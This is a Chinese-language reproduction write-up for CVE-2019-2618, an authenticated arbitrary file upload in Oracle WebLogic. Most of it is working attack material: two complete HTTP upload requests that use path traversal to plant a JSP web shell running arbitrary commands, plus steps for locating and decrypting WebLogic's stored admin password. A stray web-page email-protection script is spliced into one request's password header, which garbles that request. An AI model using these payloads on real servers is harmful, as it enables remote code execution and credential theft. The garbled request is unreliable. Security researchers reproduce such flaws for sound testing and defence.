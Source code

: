 cve-2019-2618
=============

一、漏洞简介
------------

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

三、复现过程
------------

<https://github.com/ianxtianxt/cve-2019-2618>

### python使用

    python CVE-2019-2618.py url username password

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId26.jpg)
![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId27.jpg)

### 解密weblogic密码

    root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
    password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
    root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
    /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
    root@f0cb7e674d7e:~/Oracle# 

    weblogic 账号密码： weblogic/Oracle@123

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId29.jpg)

### 使用docker搭建环境

参考vulnhub

    root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
    1.png  docker-compose.yml  README.md  set_mirror.sh
    root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId31.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1081

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW--

### 也可以换个目录上传

    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
    bea_wls_internal 
    bea_wls_deployment_internal 在同目录
    这是漏洞war位置

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId33.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
    serverName: Jas502n
    password: <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="327d4053515e5772030001">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1084

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell111.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW-
